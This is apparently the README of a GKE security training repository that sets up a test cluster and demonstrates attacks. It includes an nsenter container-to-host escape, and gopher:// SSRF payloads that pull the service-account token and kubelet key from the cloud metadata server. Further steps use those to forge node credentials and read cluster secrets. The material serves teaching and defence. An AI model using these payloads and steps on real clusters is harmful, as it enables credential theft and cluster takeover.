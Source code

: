 # training-gke-security
This repository is for training of GKE Security

[![Open in Cloud Shell](http://gstatic.com/cloudssh/images/open-btn.png)](https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/rung/training-gke-security&page=editor&cloudshell_tutorial=README.md)

### Preparation
- Set project id
```bash
gcloud config set project PROJECT_ID
```

- Enable GKE API
```bash
gcloud services enable container.googleapis.com
```

- Create GKE Cluster
```bash
gcloud container clusters create gke-security-testing --zone us-central1-a --machine-type g1-small --num-nodes 3 --async
```

- Get a credential of GKE
```bash
gcloud container clusters get-credentials gke-security-testing --zone=us-central1-a
```

- Testing
```
kubectl get node
```

### Demo 1: PodSecurityPolicy
- Run root container
```
kubectl apply -f manifest/root/pod.yaml
```

- Enter root
kubectl exec -it root-container -- /bin/sh -c "nsenter --mount=/proc/1/ns/mnt -- /bin/bash"
```

- How to block
  - RBAC
  - exec

### Demo 2: Workload Identity
- Apply k8s manifest
```
kubectl apply -f manifest -R
```
(Please don't expose deployment on the Internet through Service.)

- Port-forward
```
kubectl port-forward deployment/ssrf-server 8080:8080
```

- Open Web Preview
<img src="img/web-preview.png" width="320">

- Input url (for testing)
```
https://www.google.com
```

- Input malicious url
  - Get instance token (doesn't use it in this training)
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/service-accounts/default/token HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```

  - Get kubelet key
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/attributes/kube-env?alt=json HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```
It contains "KUBELET_KEY".

- ctrl+A and store all result to `metadata_exploit/metadata.txt` file
TODO: ADD image

- store
```bash
cd metadata_exploit

# Extract necessary data from metadata
bash extract.sh
ls -l metadata

# Get node permission
bash exploit.sh $(cat metadata/nodename)

# Set env vars
KUBE_OPT="--client-certificate newcert/node.crt --client-key newcert/new.key --certificate-authority metadata/ca.crt --server https://$(cat metadata/api_ip)"
echo $KUBE_OPT

# Get secretName
kubectl describe pod | grep secret

# Get secret
kubectl get secret dummy-secret -o yaml
```

### (After this training) Clean cluster
```bash
gcloud container clusters delete gke-security-testing --zone us-central1-a --async
```

## References
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Hacking Kubelet on Google Kubernetes Engine](https://www.4armed.com/blog/hacking-kubelet-on-gke/)
- [The Path Less Traveled: Abusing Kubernetes Defaults](https://speakerdeck.com/iancoldwater/the-path-less-traveled-abusing-kubernetes-defaults)
